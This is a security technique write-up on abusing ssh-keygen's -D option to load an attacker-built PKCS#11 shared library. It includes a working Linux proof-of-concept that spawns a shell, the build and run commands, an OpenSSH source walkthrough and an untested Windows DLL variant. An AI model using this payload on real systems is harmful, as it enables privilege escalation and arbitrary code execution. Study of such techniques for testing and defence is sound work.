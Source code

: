 The `ssh-keygen` command can be used to load a shared library with the `-D` flag. This can be useful for privilege escalation, or to translate to arbitrary code execution from argument injection, file overwrites, etc.
The man page says the following,
```plaintext
-D pkcs11
             Download the public keys provided by the PKCS#11 shared library pkcs11. When used in combination with -s, this option indicates that a CA key resides in a PKCS#11 token.
```

# Payload PoC
```c
// lib2shell.c
#include <stdio.h>
#include <unistd.h>

#define SHELL_COMMAND "/bin/sh"

void C_GetFunctionList()
//  __attribute__ ((constructor)) **Not necessarily needed**
{
    printf("Starting %s\n", SHELL_COMMAND);
    long long err = execl(SHELL_COMMAND, "/bin/sh", "-c", SHELL_COMMAND, NULL);
    printf("Result: %lld\n", err);
}
```
```bash
gcc -shared -o lib2shell.so lib2shell.c
ssh-keygen -D ./lib2shell.so
```
> [!tip]
> Learn more about [[../programming/C_C++/GCC Compiler Specific Features#GCC Constructor-Destructor Attribute|__attribute__ ((constructor))]] here. 

## Payload Mechanism
First, I needed to understand the structure of the payload. The mechanism loads a shared library (`*.so` on Unix, `*.dll` on Windows), so I probably needed to export some predefined symbol that ssh-keygen was expecting.
A standard way to load a shared library in C is to use the [`dlopen`](https://linux.die.net/man/3/dlopen) function. I searched the OpenSSH source code for this function, and found what I was looking for in [`ssh-pkcs11.c`](https://github.com/openssh/libopenssh/blob/ea5ceecdc2037c5e6e807ab3702fbe3f319351d0/ssh/ssh-pkcs11.c#L486):
```c
// [...]
    /* open shared pkcs11-libarary */
    if ((handle = dlopen(provider_id, RTLD_NOW)) == NULL) {
        error("dlopen %s failed: %s", provider_id, dlerror());
        goto fail;
    }
    if ((getfunctionlist = dlsym(handle, "C_GetFunctionList")) == NULL) {
        error("dlsym(C_GetFunctionList) failed: %s", dlerror());
        goto fail;
    }
    p = xcalloc(1, sizeof(*p));
    p->name = xstrdup(provider_id);
    p->handle = handle;
    /* setup the pkcs11 callbacks */
    if ((rv = (*getfunctionlist)(&f)) != CKR_OK) {
        error("C_GetFunctionList failed: %lu", rv);
        goto fail;
    }
    // [...]
```
The variable provider_id contains the library file path, and the function returns a handle that can be used to interact with the library in memory.
```c
handle = dlopen(provider_id, RTLD_NOW)
```

Next, it searches the newly-loaded library for an exported function called `C_GetFunctionList` and stores the function pointer in the variable `getfunctionlist`
```c
getfunctionlist = dlsym(handle, "C_GetFunctionList")
```
If `C_GetFunctionList` is found, the function is called,
```c
rv = (*getfunctionlist)(&f)
```

After that, it doesn't really matter what happens. We control the code inside `C_GetFunctionList`, so we can do whatever we want. For my scenario, I wanted to get an elevated shell, so the easiest thing to do would be to call one of the functions in the [exec](https://linux.die.net/man/3/exec) family to transform the ssh-keygen process into a new shell instance.
To summarize, I needed to create a shared library (`*.so`) that exports a function called `C_GetFunctionList`, and that function would call something like the following:

```c
execl("/bin/sh", "/bin/sh", NULL);
```

## Untested Windows Payload
```c
#define WIN32_LEAN_AND_MEAN    // Exclude rarely-used stuff from Windows headers

#include <windows.h>
#include <stdio.h>
#include <process.h>

#define SHELL_COMMAND "C:\\Windows\\System32\\cmd.exe"

BOOL APIENTRY DllMain(HMODULE h_module, DWORD  ul_reason_for_call, LPVOID lp_reserved)
{
    long long err = -2;
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        puts("[lib2shell by SeanP]");
        printf("Starting %s\n", SHELL_COMMAND);
        err = _execl(SHELL_COMMAND, "C:\\Windows\\System32\\cmd.exe", "/c", SHELL_COMMAND, NULL);
        printf("Result: %lld\n", err);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
